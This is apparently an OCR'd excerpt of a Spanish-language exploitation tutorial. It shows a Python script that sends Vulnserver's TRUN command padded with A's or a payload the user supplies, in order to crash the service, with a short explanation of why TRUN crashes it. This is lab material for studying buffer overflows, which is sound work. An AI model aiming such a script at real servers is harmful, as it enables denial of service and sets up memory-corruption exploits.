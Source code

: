 ```python

def exploit(ip, port, length, payload):
        try:
                # Creando conexión vía TCP/IP
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.settimeout(5)
                print(f"\n[+] Conectando a {ip}:{port}...\n")
                s.connect((ip, port))

                # Recibiendo banner
                banner = s.recv(1024)
                print(f"\n[+] Recibiendo Banner: \n------\n{banner.decode('utf-8', errors='ignore')}\n------\n")


                # Enviando payload, ya sea A's o uno del usuario
                if length:
                        payload_bytes = b"TRUN /.:/" + (b"A" * length) + b'\r\n'
                elif payload:
                        payload_bytes = b"TRUN /.:/" + payload.encode() + b'\r\n'

                print(f"[*] Payload Enviado: {payload_bytes}\n")
                s.send(payload_bytes)

		# Intentar recibir respuesta (manejar error si el servidor ya crasheó
                try:
                        response = s.recv(1024)
                        print(f"\n[+] Respuesta del servidor: {response.decode('utf-8', errors='ignore')}\n")
                except socket.timeout:
                        print("\n[!] No hay respuesta, el servidor podría haber crasheado.")

        # Manejo de errores
        except socket.error as e:
                print(f"[!] Error de conexión: {e}")

        except Exception as e:
                print(f"[!] Ocurrio un error: {e}")

        # Cerrando la conexión
        finally:
                s.close()
                print("\n[+] Cerrando conexión.")


if __name__ == '__main__':
        args = parse_arguments()
        exploit(args.ip_addr, args.port, args.length, args.payload)
```
Ha sido modificado para que tramite A's o un payload del usuario en conjunto al **comando TRUN** que utiliza el binario, esto porque este comando es el que lo crashea.

